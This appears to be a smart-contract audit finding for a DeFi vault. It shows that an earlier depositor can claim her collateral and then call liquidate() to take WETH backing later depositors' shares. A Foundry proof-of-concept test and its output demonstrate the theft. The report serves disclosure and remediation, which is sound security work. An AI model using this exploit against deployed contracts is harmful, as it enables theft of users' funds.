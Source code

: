 hickuphh3

high

# Earlier depositors can steal funds belonging to subsequent depositors

## Summary
Earlier depositors are able to steal funds belonging to subsequent depositors.

## Vulnerability Detail
In some sense, claims are mixed with liquidations, because both withdraw collateral. Since claims are uncapped and don't decrease the token holder's shares, it is possible for a token holder to have fully redeemed his original loaned amount, yet still perform a liquidation (in essence, using subsequent depositor's shares to extract more collateral).

## POC

### Scenario
1. Alice deposits 1 WETH, 0.5 alETH is minted
2. Loan is fully repaid (could be partial, but full repayment is easier to grasp).
3. Alice is withdraws the full 1 WETH collateral by marking all vault shares claimable, then claiming it
4. Bob deposits 1.1 WETH, ~ 0.55 alETH is minted.
5. Alice is able to then call `liquidate()`. Since her shares represent 1 WETH of collateral, she's effectively stealing 1 WETH from Bob. 0.45 WETH goes to her, 0.55 WETH is used to pay for the debt.
6. Bob is then only able to recover 0.1 WETH.

### Foundry Test
Note that this will require fixes regarding the first deposit and claimable value calculations in order to pass.
```solidity
function testStealingFundsThroughLiquidation() public {
        uint256 depositAmt = 1e18;

        // Step 1: admin makes a deposit
        vault.register_deposit(1, depositAmt);

        // Step 2: fully pay off loan
        (int256 vaultDebt,) = alchemist.accounts(vaultAdd);
        alchemist.repay(
            address(weth),
            alchemist.normalizeDebtTokensToUnderlying(address(weth), uint256(vaultDebt)),
            vaultAdd
        );

        // Step 3: mark as fully claimable -> burn all vault shares
        uint256 vaultShares;
        (vaultShares, ) = alchemist.positions(vaultAdd, yieldToken);
        vault.withdraw_underlying_to_claim(
            vaultShares,
            0
        );

        // check that all vaultShares have been redeemed
        (vaultShares, ) = alchemist.positions(vaultAdd, yieldToken);
        assertEq(vaultShares, 0);

        // Step 4: admin claims ~1 ETH
        uint256 wethBalBefore = weth.balanceOf(admin);
        vault.claim(1);

        // Step 5: user1 deposits 1.1 ETH
        uint256 userDepositAmt = depositAmt * 110 / 100;
        vm.stopPrank();
        vm.prank(user1);
        vault.register_deposit(2, userDepositAmt);

        // Step 5.5: Repay a little because liquidation will fail from undercollateralisation
        vm.prank(user2);
        alchemist.repay(address(weth), 0.01e18, vaultAdd);

        // Step 6: admin then liquidates -> steals funds belonging to user1's shares
        vm.prank(admin);
        vault.liquidate(1, 0);
        uint256 wethBalAfter = weth.balanceOf(admin);

        // assert that admin got more funds than entitled
        // 1 ETH claimed originally + 0.5 ETH from liquidation (the other 0.5 ETH used for debt repayment)
        assertGt(wethBalAfter - wethBalBefore, depositAmt * 150 / 100);
        console.log("Admin total obtained WETH:", wethBalAfter - wethBalBefore);

        // user1 will only be able to recover 1.1 ETH - 1 ETH ~= 0.1 ETH
        // liquidation not possible because of uncollateralisation
        // only way is to fully repay loan, then mark as claimable
        wethBalBefore = weth.balanceOf(user1);

        (vaultDebt,) = alchemist.accounts(vaultAdd);
        vm.startPrank(user2);
        alchemist.repay(
            address(weth),
            alchemist.normalizeDebtTokensToUnderlying(address(weth), uint256(vaultDebt)),
            vaultAdd
        );

        // Step 3: mark as fully claimable -> burn all vault shares
        (vaultShares, ) = alchemist.positions(vaultAdd, yieldToken);
        vault.withdraw_underlying_to_claim(
            vaultShares,
            0
        );
        vm.stopPrank();
        vm.prank(user1);
        vault.claim(2);
        wethBalAfter = weth.balanceOf(user1);
        // will be ~0.1 ETH
        console.log("User total obtained WETH:", wethBalAfter - wethBalBefore);
    }
```
<img width="510" alt="image" src="https://user-images.githubusercontent.com/87458768/219589109-de1e12d4-876f-4385-b45c-506f311370d5.png">
We can see that the admin (Alice) was able to walk away with `1509090878299570667`, which is her original 1 WETH deposit + 0.5 WETH from the liquidation. User1 (Bob) was only able to recover `99999299051482938` ~= 0.1 WETH.

## Impact

## Code Snippet
https://github.com/sherlock-audit/2023-02-fair-funding/blob/main/fair-funding/contracts/Vault.vy#L320-L352
https://github.com/sherlock-audit/2023-02-fair-funding/blob/main/fair-funding/contracts/Vault.vy#L374-L404

## Tool used
Foundry, Mainnet Forking, Manual Review

## Recommendation
Claims should be minting debt instead of withdrawing collateral.